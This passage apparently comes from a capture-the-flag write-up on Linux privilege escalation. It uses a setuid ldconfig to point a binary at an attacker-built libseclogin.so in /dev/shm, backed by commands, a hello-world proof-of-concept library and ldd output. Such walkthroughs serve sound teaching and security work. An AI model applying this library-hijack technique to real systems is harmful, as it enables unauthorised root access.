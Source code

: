 This is where the fact that `ldconfig` is setuid allowing me to run it as root
comes in handy. I can use this to configure where the binary looks for
libraries, and give it one of my own instead of the one it currently looks
for.

#### Hello World POC

I’ll make a quick hello world program that implements the `seclogin` function:

    
    
    genevieve@dab:/dev/shm$ cat .a.c
    #include <stdio.h>
    
    void seclogin() {
        printf("hello, world!");
    }
    

Next I’ll compile it to a library using the `-shared` and `-fPIC` flags:

    
    
    genevieve@dab:/dev/shm$ gcc -shared -fPIC /dev/shm/.a.c -o /dev/shm/libseclogin.so
    

The `-shared` flag tells gcc to make a shared object which can later be linked
to other objects, and `-fPIC` says to emit position independent code, which is
what a library typically needs. I’ve output my library in `/dev/shm` (just a
place to stage, could be anywhere).

Next, I’ll create a config file for `ldconfig` that simply includes the path I
want to check:

    
    
    genevieve@dab:/dev/shm$ cat df.conf 
    /dev/shm
    

Now I’ll change the configuration with `ldconfig`. First, I’ll show the
libraries before I change anything:

    
    
    genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
            linux-vdso.so.1 =>  (0x00007fff061d0000)
            libseclogin.so => /usr/lib/libseclogin.so (0x00007fd56002e000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd55fc64000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fd560230000)
    

Now, I’ll use `ldconfig` to add my path. `myexec` now is looking for libraries
(including `libseclogin.so`) in `/dev/shm`:

    
    
    genevieve@dab:/dev/shm$ ldconfig -f df.conf 
    genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
            linux-vdso.so.1 =>  (0x00007ffcef9c8000)
            libseclogin.so => /dev/shm/libseclogin.so (0x00007fa94237b000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa941fb1000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fa94257d000)
    